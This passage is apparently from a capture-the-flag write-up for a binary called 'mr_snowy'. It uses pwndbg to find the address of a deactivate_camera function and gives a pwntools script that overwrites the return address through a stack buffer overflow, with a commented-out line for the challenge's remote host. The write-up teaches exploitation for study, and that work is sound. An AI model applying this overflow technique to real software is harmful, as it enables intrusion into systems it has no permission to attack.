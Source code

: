 Aside from this, all we really need is the memory address of the `deactivate_camera()` function. I've already shown two tools you can use to locate this, but pwndbg lets us do this in two different ways. We can run `info functions` to get a list of all functions.
```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400868  _init
...[trim]...
0x00000000004009d0  _start
0x0000000000400a00  _dl_relocate_static_pie
0x0000000000400a10  deregister_tm_clones
0x0000000000400a40  register_tm_clones
0x0000000000400a80  __do_global_dtors_aux
0x0000000000400ab0  frame_dummy
0x0000000000400ab7  reset
0x0000000000400acf  rainbow
0x0000000000400d3b  color
0x00000000004010ed  printstr
0x0000000000401165  deactivate_camera
0x0000000000401278  banner
0x0000000000401374  investigate
0x000000000040146a  snowman
0x00000000004014f1  setup
0x000000000040153e  main
0x0000000000401560  __libc_csu_init
0x00000000004015d0  __libc_csu_fini
0x00000000004015d4  _fini
```

Or we can use `print& deactivate_camera` for the specific function that we want.
```bash
pwndbg> print& deactivate_camera
$1 = (<text variable, no debug info> *) 0x401165 <deactivate_camera>
```

We also could have disassembled any of these functions in pwndbg using `disassemble FUNCTION`. I encourage you to read through the documentation and learn more.

### pwntools
Now, we can finally get to writing the exploit. The tricky thing here is not actually writing it- all we have to do is send 64 A's followed by a return address -but getting past all of the cosmetic additions. Luckily, `pwntools` simplifies this process with a variety of functions. I'll show you the code and then explain it afterwards.

```python
from pwn import *

context.log_level = 'info'

exe = './mr_snowy'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Start program
io = process('./mr_snowy')
#io = remote('138.68.174.27', 31056)
offset = 72
# Build the payload
payload = flat(
    {offset: 0x00401165}
)

# Save the payload to file
write('payload', payload)
```

[Location]: 🎅 Santa's garden..
[Location]: 🎅 Santa's garden..
